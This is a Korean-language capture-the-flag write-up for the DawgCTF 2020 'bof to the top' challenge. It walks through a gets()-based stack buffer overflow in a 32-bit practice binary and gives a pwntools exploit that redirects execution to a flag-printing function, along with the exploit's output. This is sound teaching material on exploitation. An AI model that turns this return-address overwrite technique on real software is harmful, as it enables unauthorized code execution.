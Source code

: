 ```yaml
---
title: "[DawgCTF 2020] bof to the top"
date: 2020-04-20
categories: Write-up
sitemap :
  changefreq : daily
  priority : 1.0
---
```




---



# outline

``` bash
[*] '/home/minibeef/ctf/Dawg-2020/pwn-bof-to-the-top-100/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32 비트 바이너리에 `NX bit`가 적용되어 있다.



---



# 바이너리 분석

``` bash
minibeef@argos-edu:~/ctf/Dawg-2020/pwn-bof-to-the-top-100$ ./bof
Welcome to East High!
We're the Wildcats and getting ready for our spring musical
We're now accepting signups for auditions!
What's your name?
1
What song will you be singing?
1
```

 바이너리를 실행시키면 두 번의 입력을 받게된다. 다른 특이사항은 없는 듯 하다.



---



# Vlunerability

### main

``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome();
  get_audition_info();
  return 0;
}
```

`welcome()`과 `get_audition_info()`를 호출한다.



### welcome

``` c
int welcome()
{
  puts("Welcome to East High!");
  puts("We're the Wildcats and getting ready for our spring musical");
  return puts("We're now accepting signups for auditions!");
}
```

`welcome()`에서는 바이너리를 처음 실행시켰을 때 볼 수 있었던 문자열을 출력해준다. 문제 풀이에 핵심이 되는 것 같지는 않다.



### get_audition_info

```c
char *get_audition_info()
{
  char v1; // [esp+Ch] [ebp-6Ch]
  char s; // [esp+3Eh] [ebp-3Ah]

  puts("What's your name?");
  gets(&s);
  puts("What song will you be singing?");
  return gets(&v1);
}
```

`get_audition_info()`에서는 **두 번의 입력**을 받는데, 이를 `gets()`로 받고있다. 해당 두 부분에서 `Buffer Overflow` 취약점이 발생하는 것을 알 수 있다. 이제 `flag`를 읽을 방법만 찾으면 된다. 만약 없다면 선택의 여지 없이 시간을 좀 쓰더라도 ROP를 해야한다.



### audition

```c
int __cdecl audition(int a1, int a2)
{
  int result; // eax

  result = 134529024;
  if ( a1 == 1200 && a2 == 366 )
    result = system("/bin/cat flag.txt");
  return result;
}
```

`audition()`에서 고맙게도 `flag`를 읽을 수단을 제공해주고 있다. 그냥 거저 주는 것은 아니고 `audition()`이 프로그램 어디에서도 호출되지 않았으며 인자로 받은 두 값의 조건을 충족시켜야 하기 때문에 `Return To Libc` 공격이 해법에 적절에 보인다.



### 정리

`get_audition_info()`에서 **untrusted input**을 이용한 메모리 공격을 하되, 두 번의 입력 중 어느 곳에든 페이로드를 덮어줘도 되지만 그냥 첫 번째 입력에서 코드를 쏴준다. 이 때 리턴할 주소는 `audition()`, 인자는 `1200`과 `366`을 전달해 해당 함수에서 조건문을 만족하도록 한다.

---



# exploit

``` assembly
.text:08049182                 push    ebp
.text:08049183                 mov     ebp, esp
```

`audition()` 주소 : 0x08049182



``` python
from pwn import *

p = process('./bof')
ELF('./bof')

flag_addr = 0x08049182
arg1 = 1200
arg2 = 366
payload = ''

payload += 'A' * 62
payload += p32(flag_addr)
payload += 'A' * 4
payload += p32(arg1)
payload += p32(arg2)

p.sendline(payload)
p.sendline('A')

p.interactive()
```



``` bash
minibeef@argos-edu:~/ctf/Dawg-2020/pwn-bof-to-the-top-100$ python test.py
[+] Starting local process './bof': pid 29327
[*] '/home/minibeef/ctf/Dawg-2020/pwn-bof-to-the-top-100/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
Welcome to East High!
We're the Wildcats and getting ready for our spring musical
We're now accepting signups for auditions!
What's your name?
What song will you be singing?
DawgCTF{buffer_0ver_fl@w}
```



끝